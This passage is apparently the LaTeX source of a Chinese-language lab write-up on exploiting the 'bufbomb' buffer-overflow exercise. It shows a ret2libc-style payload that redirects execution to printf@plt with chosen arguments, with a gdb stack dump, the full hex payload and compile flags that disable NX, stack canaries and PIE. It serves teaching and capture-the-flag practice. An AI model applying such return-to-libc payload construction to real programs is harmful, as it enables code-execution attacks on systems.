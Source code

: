 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
另外一个非常容易想到的思路和 \texttt{ret2libc}\footnote{在CTF-Wiki上简述了\href{https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/\#ret2libc}{ret2libc}的原理和利用方法。}非常像。

我们完全可以不使用 \texttt{0x080492e7}处的 \texttt{printf}————我们可以自己构造一个出来！

字符串的地址是 \texttt{0x0804A019}，第二个参数应为0xdeadbeef，所以根据i386架构下的 \texttt{ret2libc}原理，我们可以写出以下payload：

\begin{lstlisting}[style=DOS]
    padding + ebp + (target address) + (return address) + arg1 + arg2 + arg3 ... 
\end{lstlisting}

与solution1中一样，padding为0x18Bytes，ebp为0x04Bytes。目标函数为 \texttt{printf}在plt表中的位置。return function可以不填。arg1为 \texttt{0x0804A019}，arg2为0xdeadbeef。

\begin{lstlisting}[style=DOS]
    00:0000│ eax esp 0xffffd3b0 ◂— 0x0
    ... ↓            6 skipped
    07:001c│         0xffffd3cc —▸ 0x8049050 (printf@plt) ◂— jmp dword ptr [0x804c010]
    08:0020│         0xffffd3d0 ◂— 0x0
    09:0024│         0xffffd3d4 —▸ 0x804a019 ◂— 'getbuf returned 0x%x\n'
    0a:0028│         0xffffd3d8 ◂— 0xdeadbeef
\end{lstlisting}

从上至下依次是28Bytes的padding zeros，目标函数地址，返回地址，参数1，参数2。

payload: ``00000000 00000000 00000000 00000000 00000000 00000000 00000000 50900408 00000000 19A00408 EFBEADDE''

\subsection{solution3}

\begin{itemize}
    \item elf file:  \texttt{bufbomb-no-nx}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb-no-nx -g -no-pie -fno-stack-protector -O0 -z execstack
    \item guard: no PIE, no Canary, no NX, no ASLR
\end{itemize}

接下来我们来讨论在关闭 \texttt{NX}保护和关闭 \texttt{ASLR}保护的利用情况。\footnote{\href{https://stackoverflow.com/questions/2340259/how-to-turn-off-gcc-compiler-optimization-to-enable-buffer-overflow}{How to turn off gcc compiler optimization to enable buffer overflow? - stackoverflow}}
\end{document}
